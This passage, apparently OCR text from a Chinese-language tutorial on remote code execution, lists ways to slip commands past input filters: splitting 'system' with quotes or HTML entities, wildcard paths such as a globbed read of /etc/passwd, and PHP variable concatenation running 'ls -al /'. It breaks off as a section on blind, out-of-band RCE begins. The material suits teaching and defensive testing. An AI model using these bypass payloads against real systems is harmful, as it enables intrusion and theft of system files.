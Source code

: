 •
```
sy'stem'
```

  
 (单引号)  
•
```
sy&#34;stem&#34;
```

  
 (双引号)  
  
•**通配符：**  
 在命令注入中，利用 
```
*
```

  
, 
```
?
```

  
 等通配符代替命令或文件名中的字符。  
•
```
ca? /et?/?asswd
```

  
•
```
s*m 'ls -al /'
```

  
 (如果 
```
system
```

  
 是唯一匹配的函数)  
  
•**变量替换：**  
 将危险字符串存储在变量中，再引用变量。  
•
```
$a='sy';$b='stem';$a.$b('ls -al /');
```

  
 (PHP)  
### 3. 无回显 RCE 的利用（Blind RCE）  
  
有时 RCE 成功执行了命令，但应用程序没有将命令的输出返回给攻击者。这被称为无回显 RCE 或盲 RCE。  
  
•**带外通信 (Out-of-Band, OOB)：**  
  
